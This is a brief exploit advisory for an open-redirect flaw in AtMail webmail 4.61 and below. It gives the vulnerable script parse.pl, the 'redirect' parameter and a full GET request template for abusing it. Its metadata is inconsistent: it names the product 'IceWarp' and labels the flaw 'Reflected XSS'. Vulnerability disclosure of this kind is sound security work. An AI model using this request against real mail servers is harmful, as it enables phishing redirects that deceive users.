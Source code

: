 ```yaml
---
title: "AtMail 4.61 and below Open-Redirect"
collection: exploits
excerpt: "AtMail 4.61 and below Open-Redirect"
permalink: /exploit/atmail-redirect-exploit
date: 2020-03-11
tags:
  - exploit
  - atmail
  - Open Redirect
  - AtMail Webmail version 4.61 nad below
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 11.03.2020  
**Software Link :** https://www.atmail.com/cloud-hosted-webmail/  
**Vendor Homepage :** https://www.atmail.com <br>
**Version :** IceWarp 4.61 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 67.0.3575.97  
**Category :** Reflected XSS  

<hr><br>  

**GET REQUEST :**

GET /atmail/parse.pl?redirect=**TARGET URL** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable File :**
/atmail/parse.pl<br> 
**Vulnerable Parameter :**
redirect


Packet Storm : <a href="https://packetstormsecurity.com/files/156705/AtMail-WebMail-4.61-Open-Redirect.html">156705</a>
